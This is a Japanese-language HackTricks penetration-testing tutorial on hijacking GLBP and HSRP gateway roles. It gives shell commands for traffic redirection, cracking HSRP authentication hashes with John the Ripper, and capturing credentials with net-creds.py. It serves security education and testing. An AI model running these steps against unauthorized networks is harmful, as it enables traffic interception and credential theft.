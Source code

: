 # GLBP & HSRP Attacks

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスウェグ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する

</details>


## FHRPハイジャッキング概要

### FHRPについての洞察
FHRPは、複数のルーターを1つの仮想ユニットに統合することで、ネットワークの堅牢性を提供し、負荷分散と障害耐性を向上させるよう設計されています。Cisco Systemsは、GLBPやHSRPなどの優れたプロトコルをこのスイートで導入しました。

### GLBPプロトコルの洞察
Ciscoの創造物であるGLBPは、TCP/IPスタック上で機能し、通信にはポート3222でUDPを使用します。GLBPグループ内のルーターは、3秒ごとに「hello」パケットを交換します。ルーターがこれらのパケットを10秒間送信しない場合、オフラインと見なされます。ただし、これらのタイマーは固定されておらず、変更可能です。

### GLBPの動作と負荷分散
GLBPは、1つの仮想IPと複数の仮想MACアドレスを使用して、ルーター間で負荷分散を可能にすることで際立っています。GLBPグループでは、すべてのルーターがパケットの転送に関与します。HSRP/VRRPとは異なり、GLBPは次のメカニズムを通じて本物の負荷分散を提供します：

- **ホスト依存型負荷分散:** ホストに一貫したAVF MACアドレス割り当てを維持し、安定したNAT構成に不可欠です。
- **ラウンドロビン負荷分散:** リクエストするホスト間でAVF MACアドレスの割り当てを交互に行うデフォルトのアプローチ。
- **重み付きラウンドロビン負荷分散:** 事前に定義された「重み」メトリクスに基づいて負荷を分散します。

### GLBPの主要なコンポーネントと用語
- **AVG（Active Virtual Gateway）:** MACアドレスをピアルーターに割り当てる責任を持つ主要なルーター。
- **AVF（Active Virtual Forwarder）:** ネットワークトラフィックを管理するために指定されたルーター。
- **GLBP優先度:** AVGを決定するメトリクスで、デフォルトは100から255までの範囲で開始します。
- **GLBP重み:** ルーター上の現在の負荷を反映し、手動で調整するか、Object Trackingを介して調整できます。
- **GLBP仮想IPアドレス:** 接続されたすべてのデバイスのデフォルトゲートウェイとして機能します。

GLBPでは、予約されたマルチキャストアドレス224.0.0.102とUDPポート3222を使用して相互作用します。ルーターは3秒ごとに「hello」パケットを送信し、パケットが10秒間欠落した場合は非稼働と見なされます。

### GLBP攻撃メカニズム
攻撃者は、最も高い優先度値（255）を持つGLBPパケットを送信することで、主要ルーターになることができます。これにより、DoSやMITM攻撃が発生し、トラフィックの傍受やリダイレクトが可能になります。

### Lokiを使用したGLBP攻撃の実行
[Loki](https://github.com/raizo62/loki_on_kali)は、優先度と重みが255に設定されたパケットを注入することでGLBP攻撃を実行できます。攻撃前の手順には、Wiresharkなどのツールを使用して、仮想IPアドレス、認証の有無、およびルーターの優先度値などの情報を収集することが含まれます。

攻撃手順：
1. プロミスキャスモードに切り替えてIPフォワーディングを有効にします。
2. ターゲットルーターを特定し、そのIPを取得します。
3. Gratuitous ARPを生成します。
4. AVGをなりすまして悪意のあるGLBPパケットを注入します。
5. 攻撃者のネットワークインターフェースにセカンダリIPアドレスを割り当て、GLBP仮想IPを反映させます。
6. 完全なトラフィックの可視性のためにSNATを実装します。
7. インターネットアクセスを元のAVGルーターを介して継続するようにルーティングを調整します。

これらの手順に従うことで、攻撃者は自分自身を「中間者」として配置し、暗号化されていないまたは機密性の高いデータを含むネットワークトラフィックを傍受および分析できます。

デモンストレーションのために、必要なコマンドスニペットを以下に示します：
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### HSRPハイジャックのパッシブな説明とコマンドの詳細

#### HSRP（Hot Standby Router/Redundancy Protocol）の概要
HSRPは、ネットワークゲートウェイの冗長性のために設計されたCisco独自のプロトコルです。複数の物理ルータを1つの論理ユニットに構成し、共有IPアドレスを持つことができます。この論理ユニットは、トラフィックを管理するための責任を持つプライマリルータによって管理されます。GLBPが優先度や重みなどのメトリクスを使用して負荷分散を行うのに対し、HSRPはトラフィック管理のために単一のアクティブルータを使用します。

#### HSRPの役割と用語
- **HSRPアクティブルータ**: トラフィックフローを管理するゲートウェイとして機能するデバイス。
- **HSRPスタンバイルータ**: アクティブルータが故障した場合に引き継ぐ準備ができたバックアップルータ。
- **HSRPグループ**: 単一の強固な仮想ルータを形成するために協力するルータのセット。
- **HSRP MACアドレス**: HSRPセットアップ内の論理ルータに割り当てられた仮想MACアドレス。
- **HSRP仮想IPアドレス**: 接続されたデバイスのデフォルトゲートウェイとして機能するHSRPグループの仮想IPアドレス。

#### HSRPのバージョン
HSRPには、HSRPv1とHSRPv2の2つのバージョンがあり、主にグループ容量、マルチキャストIPの使用、および仮想MACアドレス構造が異なります。プロトコルは、サービス情報の交換に特定のマルチキャストIPアドレスを使用し、Helloパケットは3秒ごとに送信されます。パケットが10秒間受信されない場合、ルータは非アクティブと見なされます。

#### HSRP攻撃メカニズム
HSRP攻撃は、最大優先度値を注入することでアクティブルータの役割を強制的に引き継ぐことを含みます。これにより、Man-In-The-Middle（MITM）攻撃が発生する可能性があります。攻撃前の重要なステップには、HSRPセットアップに関するデータを収集することが含まれ、これはトラフィック分析のためにWiresharkを使用して行うことができます。

#### HSRP認証のバイパス手順
1. HSRPデータを含むネットワークトラフィックを.pcapファイルとして保存します。
```shell
tcpdump -w hsrp_traffic.pcap
```
2. hsrp2john.pyを使用して.pcapファイルからMD5ハッシュを抽出します。
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripperを使用してMD5ハッシュをクラックします。
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Lokiを使用したHSRPインジェクションの実行**

1. Lokiを起動してHSRP広告を特定します。
2. ネットワークインターフェースをプロミスキャスモードに設定し、IPフォワーディングを有効にします。
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Lokiを使用して特定のルータをターゲットにし、クラックされたHSRPパスワードを入力し、アクティブルータを偽装するために必要な設定を行います。
4. アクティブルータの役割を取得した後、ネットワークインターフェースとIPテーブルを設定して正規のトラフィックを傍受します。
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 以前のアクティブルータを介してトラフィックをルーティングするためにルーティングテーブルを変更します。
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 傍受したトラフィックから資格情報をキャプチャするためにnet-creds.pyや類似のユーティリティを使用します。
```shell
sudo python2 net-creds.py -i eth0
```

これらの手順を実行することで、攻撃者はGLBPハイジャックの手順と同様にトラフィックを傍受および操作する立場に置かれます。これは、HSRPなどの冗長性プロトコルの脆弱性と堅牢なセキュリティ対策の必要性を示しています。
